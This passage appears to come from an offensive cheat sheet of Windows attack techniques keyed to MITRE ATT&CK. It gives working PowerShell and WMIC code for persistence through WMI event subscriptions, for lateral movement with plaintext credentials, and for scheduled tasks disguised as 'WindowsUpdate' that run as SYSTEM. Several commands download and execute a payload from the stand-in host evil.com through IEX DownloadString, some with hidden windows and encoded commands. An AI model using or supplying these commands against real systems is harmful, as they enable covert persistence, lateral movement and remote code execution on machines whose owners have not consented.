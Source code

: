 
### 2.2 WMI Event Subscriptions (Persistence + Execution)

```powershell
# Create event filter (trigger)
$FilterArgs = @{
    EventNamespace = 'root/cimv2'
    Name = "SystemBootFilter"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    QueryLanguage = "WQL"
}
$Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $FilterArgs

# Create consumer (action)
$ConsumerArgs = @{
    Name = "SystemBootConsumer"
    CommandLineTemplate = "powershell.exe -NoP -W Hidden -Enc <BASE64>"
}
$Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# Bind filter to consumer
$FilterToConsumerArgs = @{
    Filter = $Filter
    Consumer = $Consumer
}
Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs
```

### 2.3 WMIC Lateral Movement

```powershell
# Execute on remote system
wmic /node:"192.168.1.100" /user:"admin" /password:"pass" process call create "cmd.exe /c powershell -enc <PAYLOAD>"

# Multiple targets
wmic /node:@targets.txt /user:"admin" process call create "powershell.exe -Command IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
```

---

## 3. Scheduled Tasks and Jobs (T1053)

### 3.1 Windows Scheduled Tasks (T1053.005)

```powershell
# Create scheduled task
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')" /sc daily /st 09:00 /ru SYSTEM

# Create task on remote system
schtasks /create /s TARGET /u DOMAIN\admin /p password /tn "Update" /tr "cmd.exe /c calc.exe" /sc onlogon

# PowerShell task creation
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command IEX(IWR 'http://evil.com/payload.ps1')"
$trigger = New-ScheduledTaskTrigger -AtStartup
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
```